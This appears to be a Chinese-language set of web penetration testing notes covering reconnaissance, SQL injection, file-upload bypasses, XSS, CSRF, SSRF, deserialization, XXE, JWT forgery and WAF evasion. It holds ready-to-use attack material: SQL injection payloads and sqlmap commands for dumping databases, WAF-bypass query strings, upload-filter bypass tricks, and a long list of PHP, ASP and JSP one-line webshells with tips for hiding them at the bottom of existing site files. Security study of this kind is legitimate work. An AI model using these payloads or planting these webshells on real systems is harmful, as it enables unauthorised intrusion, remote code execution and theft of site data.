

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

  - [漏洞三大类](#漏洞三大类)
    - [系统漏洞](#系统漏洞)
    - [WEB漏洞](#web漏洞)
    - [中间件漏洞](#中间件漏洞)
- [信息收集](#信息收集)
  - [CDN检测](#cdn检测)
  - [网站](#网站)
- [Web漏洞](#web漏洞-1)
  - [sql注入漏洞](#sql注入漏洞)
    - [mysql注入](#mysql注入)
      - [union联合注入](#union联合注入)
      - [报错注入](#报错注入)
      - [布尔盲注](#布尔盲注)
      - [时间盲注](#时间盲注)
      - [sqlmap注入](#sqlmap注入)
      - [post注入](#post注入)
      - [cookie注入](#cookie注入)
      - [HTTP头部注入](#http头部注入)
      - [json注入](#json注入)
      - [插入注入](#插入注入)
      - [二次注入](#二次注入)
      - [dnslog带外注入](#dnslog带外注入)
      - [堆叠注入](#堆叠注入)
      - [WAF绕过注入](#waf绕过注入)
  - [文件上传漏洞](#文件上传漏洞)
    - [客户端](#客户端)
    - [服务端](#服务端)
    - [漏洞](#漏洞)
    - [waf绕过](#waf绕过)
    - [一句话木马大全](#一句话木马大全)
  - [XSS跨站脚本漏洞](#xss跨站脚本漏洞)
    - [持久型](#持久型)
      - [绕过](#绕过)
      - [CSRF(Cross-Site Request Forgery)](#csrfcross-site-request-forgery)
      - [SSRF(Server-Side Request Forgery)](#ssrfserver-side-request-forgery)
  - [RCE代码及命令执行漏洞](#rce代码及命令执行漏洞)
    - [代码执行](#代码执行)
      - [脚本](#脚本)
      - [产生](#产生)
      - [检测](#检测)
      - [防御](#防御)
    - [命令执行](#命令执行)
  - [文件操作安全](#文件操作安全)
    - [文件包含漏洞](#文件包含漏洞)
    - [文件下载漏洞](#文件下载漏洞)
    - [文件读取漏洞](#文件读取漏洞)
  - [业务逻辑(逻辑越权)](#业务逻辑逻辑越权)
    - [水平垂直越权](#水平垂直越权)
    - [登录脆弱](#登录脆弱)
    - [支付数据篡改](#支付数据篡改)
    - [找回机制](#找回机制)
    - [接口调用](#接口调用)
    - [验证安全](#验证安全)
  - [反序列化](#反序列化)
    - [PHP反序列化](#php反序列化)
    - [Java反序列化](#java反序列化)
  - [XML&XXE](#xmlxxe)
- [Java安全](#java安全)
  - [JWT安全](#jwt安全)
  - [预编译CASE注入](#预编译case注入)
- [漏洞发现](#漏洞发现)
  - [操作系统](#操作系统)
  - [WEB应用](#web应用)
  - [APP应用](#app应用)
  - [服务协议](#服务协议)
- [WAF绕过](#waf绕过-1)

<!-- /code_chunk_output -->


### 漏洞三大类

#### 系统漏洞
#### WEB漏洞
#### 中间件漏洞

## 信息收集
### CDN检测
ping网站查看各地返回的IP地址
**获取真实IP**：
1. 看邮件地址
2. 看历史DNS记录
3. 国外地址访问
4. 黑暗引擎
5. 社工（结合ip地址和备案号地址等）

**Github监控**
便于手机整理最新exp或poc
便于发现相关测试目标的资产

**各种子域名查询**
**DNS，备案，证书**
**全球节点请求cdn**
枚举爆破或解析子域名对应
便于发现管理员相关的注册信息

**黑暗引擎**
fofa，shodan，zoomeye

**微信公众号接口获取**
**内部群内部应用内部接口**

### 网站
**站点搭建分析**
- 目录类型
- 端口类型
- 子域名
- 类似域名
- 旁注（同服务器不同站点），C段站点（同网段，不同服务器，不同站点）
- 搭建软件特征

**waf**
使用wafw00f工具检测


## Web漏洞

### sql注入漏洞

#### mysql注入
MYSQL5.0 以上版本：自带的数据库名 information_schema
information_schema：存储数据库下的数据库名及表名，列名信息的数据库
information_schema.schemata：记录库名信息的表
information_schema.tables：记录表名信息的表
information_schema.columns：记录列名信息表
获取相关数据：
1、数据库版本-看是否符合 information_schema 查询-version()   -5.5.532
2、数据库用户-看是否符合 ROOT 型注入攻击-user()       -root@localhost
3、当前操作系统-看是否支持大小写或文件路径选择-@@version_compile_os-win
4、数据库名字-为后期猜解指定数据库下的表，列做准备-database()    -syguestbook

load_file('route')  读取文件
union select 1,'x',3 into outfile 'route' 写入文件

**防注入**：
1. 魔术引号（magic_quotes_gpc） //HEX编码或宽字节绕过
2. 内置函数，int等
3. 自定义关键字，select等
4. WAF防护软件：安全狗，宝塔等


##### union联合注入

1.  **判断有无注入点**
老方法：
id=1 and 1=1 limit 0，1 正常
id=1 and 1=2 limit 0，1 错误
id=1 or 1=1 limit 0，1 正常
id=1 or 1=2 limit 0，1 正常

新方法：
id=1alsdfjel 错误
2. **判断字段数**
order by
3. **判断回显点**
union select 1，2，3，4 //要先使原先的查询语句不显示，如id=1 and 1=2 limit 0，1
4. **获取数据**
    - ?id=-1' union select 1,2,database() --+ //数据库名
    - ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+ //所有数据库
    - ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ 
    or
    ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+ //指定数据库中表名
    - ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='maoshe' and table_name='admin' --+ //指定数据库，表名的所有字段名
    - ?id=-1' union select 1,2,group_concat(username,password) from users --+ //具体数据

##### 报错注入
前提：页面会显示数据库报错信息。
得到报错信息、获取所有数据库名、获取指定数据库所有表名、获取指定数据库指定表中所有字段名、获取具体数据。

数据库名
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+
##### 布尔盲注
情况：没有显示位、没有报错信息，但是有SQL语句执行错误信息输出的场景，仅仅通过报错这一行为去判断SQL注入语句是否执行成功。

数据库长度
?id=1' and (length(database()))>7 --+	
?id=1' and (length(database()))>8 --+
##### 时间盲注
前提：页面上没有显示位，也没有输出SQL语句执行错误信息。 正确的SQL语句和错误的SQL语句返回页面都一样，但是加入sleep(5)条件之后，页面的返回速度明显慢了5秒。
缺点：因为是通过sleep()函数影响的响应时间来判断语句是否执行，所以比布尔盲注更慢，真实环境下时间盲注一个注入点需要跑大概五六个小时。

猜解数据库
数据库个数
?id=1 and if((select count(schema_name) from information_schema.schemata)=9,sleep(5),1)

第一个数据库名有多少个字符
?id=1 and if((select length(schema_name) from information_schema.schemata limit0,1)=18,sleep(5),1)
##### sqlmap注入
基础探测命令
联合查询注入：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=U -v 3
报错注入：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=E -v 3
布尔盲注：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=B -v 3
时间盲注：

.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=T -v 3
爆破数据
--current-db 当前使用的数据库
--dbs 列出数据库信息
-D 指定数据库，爆破指定数据库中的表
-D 数据库名 --tables
-T 指定数据表名，爆破指定表中的字段
-D 库名 -T 表名 --columns
-C 指定字段名，爆破具体数据
--dump 将数据导出、转储

指定库、表、字段，查询具体数据
.\sqlmap.py -u "http://192.168.xxx.xxx/sqli/Less-1/?id=1" --dbms=MySQL --technique=T -v 3 -D 

##### post注入
用 # 注释
##### cookie注入
##### HTTP头部注入
##### json注入

##### 插入注入
##### 二次注入
##### dnslog带外注入
##### 堆叠注入
http://ceye.io/
https://github.com/ADOOO/DnslogSqlinj
##### WAF绕过注入
**数据**
- 大小写
- 加密解密
- 编码解码
- 等价函数
- 特殊符号 mysql注释符号/**/
- 反序列化
- 注释符混用

**方式**s
- 更改提交方式
- 变异

**其他**
- **Fuzz大法**:
  https://zhuanlan.zhihu.com/p/344008210
- 数据库特性
- 垃圾数据溢出
- **HTTP参数污染**：
  构造请求包含多个相同参数名但具有不同参数值的参数。由于应用程序解析参数时可能存在解析顺序或解析方式的不一致性，攻击者可以利用这种不一致性来影响应用程序的行为。不同的解析方式可能导致应用程序选择了不同的参数值，从而导致意外的结果或绕过安全控制。
- 白名单：
  URL白名单，IP白名单，爬虫白名单，静态资源


**example**
- ```
  database/**/()   '/**/' 为mysql注释符 绕过database()检测
- ```
  union #a
  select 1,2,3#   'a'可以绕过安全狗的联合注入检测，再通过'#'使sql语句正常执行
- ```
  ?id=1/**&id=-1 union select 1,2,3#*/    /** */为mysql注释符，安全狗只检测到id=1，但由于参数污染，网站接受了id=-1 union select 1,2,3


### 文件上传漏洞



#### 客户端
- 本地禁用JavaScript（前端检测）
- burp抓包（发送往服务器）
- 复制前端代码，编辑后本地运行

#### 服务端
**黑名单**
大小写，空格,点，::$$DARA，双后缀名绕过，特殊解析后缀，.htaccess解析，配合解析漏洞
- **特殊解析后缀**：用.phtml .phps .php5 .pht进行绕过
条件：在apache的httpd.conf中有如下配置代码：AddType application/x-httpd-php .php .phtml .phps .php5 .pht
- **.htaccess解析**：创建一个.htaccess文件，里面写上<FilesMatch "4.png">
SetHandler application/x-httpd-php
这串代码的意思是如果文件中有一个4.png的文件，他就会被解析为.php
条件：AllowOverride all且文件名字不被修改
**白名单**
MIME绕过，%00，0x00，0x0a截断
- %00只能用于php版本低于5.3的
**内容及其他**
文件头检测，二次渲染，条件竞争，突破getimagesize，突破exif_imagetype
- **条件竞争**：move_uploaded_file($temp_file,$upload_file)
- move_uploaded_file()有这么一个特性，会忽略掉文件末尾的 /.
#### 漏洞
**解析漏洞**
IIS6/7.x，Apache，Nginx
**CMS漏洞**
某CMS上传1
**其他漏洞**
编辑器漏洞，CVE漏洞
#### waf绕过
数据溢出-防匹配(xxx...)
符号变异-防匹配(' " ; )
- filename="a.php

数据截断-防匹配(%00 ; 换行)
- filename="a.php%00.jpg"
- filename="a.php;.jpg"

重复数据-防匹配(参数多次)
- filename="a.jpg"filename="a.jpg"filename="a.jpg"...filename="a.php"
#### 一句话木马大全
```
##PHP：
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用

##JSP：
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%> 
提交客户端 
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>

##ASP
<%eval(Request.Item["r00ts"],”unsafe”);%>

<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%> 

<%execute(request(“1″))%> 

<scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话 

##aspx
<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script> 

<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script> 

<%eval request(chr(35))%>  不用双引号的一句话。
```


### XSS跨站脚本漏洞
反射型，持久型，dom型
#### 持久型
**XSS平台**
xss platform
**XSS工具**
webshell箱子
beef


##### 绕过


**HTTP only**：
- 未保存密码，表单劫持
- 保存密码，浏览器读取

**代码过滤**
- **实体化标签**：
  - ```"><script>alert(1)</script>  //用引号尖括号标记```
  - 利用搜索框和onclick函数
  - Unicode编码

**WAF拦截**
标签语法替换
- 特殊字符: / 在js中代表结束 <a /href="sdfsadf">

**XSStrike**
XSS工具


##### CSRF(Cross-Site Request Forgery)
**原理**：
1. 用户输入账号信息请求登录A网站。
2. A网站验证用户信息，通过验证后返回给用户一个cookie
3. 在未退出网站A之前，在同一浏览器中请求了黑客构造的恶意网站B
4. B网站收到用户请求后返回攻击性代码，构造访问A网站的语句
5. 浏览器收到攻击性代码后，在用户不知情的情况下携带cookie信息请求了A网站。此时A网站不知道这是由B发起的。那么这时黑客就可以进行一下骚操作了！

两个条件：
- 用户访问站点A并产生了cookie
- 用户没有退出A同时访问了B

**挖掘**：
1. 抓取一个正常请求的数据包，如果没有Referer字段和token，那么极有可能存在CSRF漏洞
2. 如果有Referer字段，但是去掉Referer字段后再重新提交，如果该提交还有效，那么基本上可以确定存在CSRF漏洞。
3. 利用工具进行CSRF检测。如：CSRFTESTER，CSRF REQUEST BUILDER等

**防御**
- 验证 HTTP Referer 字段：在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址
- 在请求地址中添加 token 并验证
- 在 HTTP 头中自定义属性并验证


##### SSRF(Server-Side Request Forgery)


**原理**：
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。

**挖掘**：
1. Web功能上：
  - 分享：通过URL地址分享网页内容
  - 转码服务
  - 在线翻译
  - 图片加载与下载
  - 图片，文章收藏功能
  - 未公开的api实现以及其他调用URL的功能

2. 从URL关键字中寻找：
share，wap，url,link,src,source,target,u,3g,display,sourceURI,imageURL,domain

**验证** 
burp suite抓包
右键打开图片

**绕过**
http://A.com@10.10.10.10
ip地址转换成进制

### RCE代码及命令执行漏洞
#### 代码执行
##### 脚本

php java python

##### 产生

**web源码**
thinkphp eyoucms wordpress

**中间件平台**
Tomcat Apache Redis

**其他环境**
PHP-CGI
Jenkins-CI
Java RMI

##### 检测
白盒：代码审计
黑盒：漏洞扫描工具，公开漏洞，手工看参数值及功能点

##### 防御
敏感函数禁用，变量过滤或固定，WAF产品

#### 命令执行
php里反引号可以把输出的变量转义作为Shell命令执行
系统 linux，windows

### 文件操作安全
#### 文件包含漏洞
**本地包含**
无限制，有限制
%00截断 条件：magic_quotes_gpc=off phpversion<5.3.4
长度截断 条件： windows，点号长于256；linux长于4096

**远程包含**
无限制，有限制
各种协议？伪协议

#### 文件下载漏洞
**产生**：任何语言代码下载功能函数
**作用**：配合扫描工具查看网站目录，下载想要的文件

#### 文件读取漏洞
**产生**：任何语言代码获取功能函数


### 业务逻辑(逻辑越权)


#### 水平垂直越权

**越权**
水平越权（获得同级用户权限）
垂直越权（获得更高级的用户权限）
**登录**
暴力破解，本地加密传输，Cookie脆弱，Session劫持，密文比对认证
**业务**
订单ID，手机号码，用户ID，商品ID，其他
**验证**
暴力破解，绕过测试，自动识别
**数据**
支付篡改，数量篡改，请求重放，其他
**找回**
客户端回显，Response状态，Session覆盖，弱Token缺陷，找回流程绕过，其他
**接口**
调用遍历，参数篡改，未授权访问，webservice测试，callback自定义
**回退**
回退重放
**工具**
小米范越权工具
secscan-authcheck


#### 登录脆弱
**字典**
password_brute_dictionary

#### 支付数据篡改
https://www.secpulse.com/archives/67080.html

#### 找回机制
Response状态值，验证码爆破，找回流程绕过
- 客户端回显 数据包里显示发送的验证码

#### 接口调用
短信轰炸，来电轰炸

#### 验证安全
**Token**
爆破，回显，固定
**验证码**
爆破，识别，复用，回显，绕过
识别插件：captcha-killer,Pkav_Http_Fuzz


### 反序列化
序列化其实就是将数据转化成一种可逆的数据结构，自然，逆向的过程就叫做反序列化。

#### PHP反序列化
**原理**
PHP 反序列化漏洞又叫做 PHP 对象注入漏洞，是因为程序对输入数据处理不当导致的.
反序列化漏洞的成因在于代码中的 unserialize() 接收的参数可控，从上面的例子看，这个函数的参数是一个序列化的对象，而序列化的对象只含有对象的属性，那我们就要利用对对象属性的篡改实现最终的攻击。
**前提**：
- 必须有 unserailize() 函数
- unserailize() 函数的参数必须可控（为了成功达到控制你输入的参数所实现的功能，可能需要绕过一些魔法函数
**技术**
- 有类:_construct,_destruct,_wakeup,_toString
- 无类

**利用**
真实应用下
CTF

**危害**
SQL注入，代码执行，目录遍历

https://www.cnblogs.com/fish-pompom/p/11126473.html


#### Java反序列化
在Java反序列化中，会调用被反序列化的readObject方法，当readObject方法被重写不当时产生漏洞
**标志**
以rO0AB开头：Java序列化base64加密
以aced开头：Java序列化的16进制
**利用**
Payload生成器：ysoserial
自定义检测工具或脚本

**检测**
- 黑盒：
  - 数据格式点：
    - HTTP请求中的参数
    - 自定义协议
    - RMI协议
    - 子主题5

  特定扫描

- 白盒：
  - 函数点：
    - ObjectinputStream.readObject
    - ObjectinputStream.readUnshared
    - XmlDecoder.readObject
    - XStream.fromXML
    - JSON.parseObject
  - 组件点：参考ysoserial库
  - 代码点：
    - RCE执行
    - 数据认证

### XML&XXE

**危害**：
文件读取，RCE执行，内网攻击，DOS攻击
**检测**：
- 白盒
  - 函数及可控变量查找
  - 传输和存储数据格式类型
- 黑盒
  - 人工
    - 数据格式类型判断
    - Content-type值判断：text/xml，application/xml
    - 更改Content-Type值看返回
  - 工具
**利用**：
- 输出形式
  - 有回显
    - 协议玩法：http，file，有脚本支持协议
    - 外部引用
  - 无回显
    - 外部引用-反向链接配合
- 过滤绕过
  - 协议玩法
  - 外部引用
  - 编码UTF

## Java安全
- 综合常规
  - SQL注入
  - 路径遍历
  - XSS
  - 反序列化
  - XML&XXE
  - CSRF&SSRF
- 访问控制
  - 对象引用
  - 缺少功能
- 身份验证
  - 身份验证绕过
  - JWT令牌
  - 重设密码
  - 安全密码
- 客户端安全
  - 前端限制
  - 客户端过滤
  - HTML篡改
- 组件安全
### JWT安全
**解释**：
JWT的全称是Json Web Token。是一种跨域验证身份的方案，JWT不加密数据，但能通过数字签名判断是否被篡改
**组成**：
头部（Header），声明（Claims），签名（Signature）
**攻击**：
- 伪造：
  - 无密钥-修改alg，删除签名
  - 有密钥-对应修改数据后重新加密
- 爆破：正对签名密钥爆破
- 配合：JWT数据中存在参数传递接受处理过程

**检测**
Javaweb，Authorization，数据包数据格式
### 预编译CASE注入

## 漏洞发现

### 操作系统
**探针**：Goby，Nmap，Nessus，OpenVAS，Nexpose
**类型**：远程执行，权限提升，缓冲区溢出
**利用**
- 工具框架：Metasploil，Searchsploit，企业单位内部产品
- 单点EXP：cnvd，seebug，1337day，exploit-db，Packetstorm Security
- 复现文章：各种资讯来源
**修复**：打补丁，关上入口，防护应用

### WEB应用
**已知CMS**
- 漏洞平台：cnvd，seebug，1337day,exploit-db,Packetstorm Security
- 工具框架：cmsscan,wpscan,joomscan,drupalscan
- 代码审计：函数点挖掘，功能点挖掘，框架挖掘
**开发框架**
- PHP：Yii，Laravel，thinkphp
- Java：Shire，Struts，Spring，Maven
- Python：Flask，Django，Tomado
**未知CMS**
- 工具框架：xray，awvs，appscan，企业公司内部产品
- 人工探针：应用功能，URL参数，盲猜测试
### APP应用
**抓包**
- http/https：Burpsuite，Charies，Fiddler，抓包精灵，其他
- 其他协议： wireshark
**协议**
- WEB协议类
- 其他协议类
**逆向**
- 一键提取APK涉及URL
- 反编译重写代码段编译测试

### 服务协议
端口服务
API接口：wsdl，awvs


## WAF绕过
**信息收集**
- 测试环境：aliyun-os，safedog
- 绕过分析：抓包技术，AF说明，FUZZ测试
- 绕过手法
  - 数据包特征
    - 请求方式
      - Head：请求速度快，易被拦截
    - 模拟用户
    - 爬虫引擎
    - 白名单机制
  - 请求速度
    - 延时
    - 代理池
    - 爬虫引擎
    - 白名单机制

**漏洞发现**
- 工具
  - 综合：awvs，xray，appscan
  - 单点：tpscan，wpscan，st2scan
- 触发
  - 扫描速度
    - 延时
    - 代理池
    - 白名单
  - 工具指纹
    - 特征修改
    - 模拟用户
  - 漏洞Payload
    - 数据变异
    - 冷门扫描
    
**漏洞利用**

**权限控制**

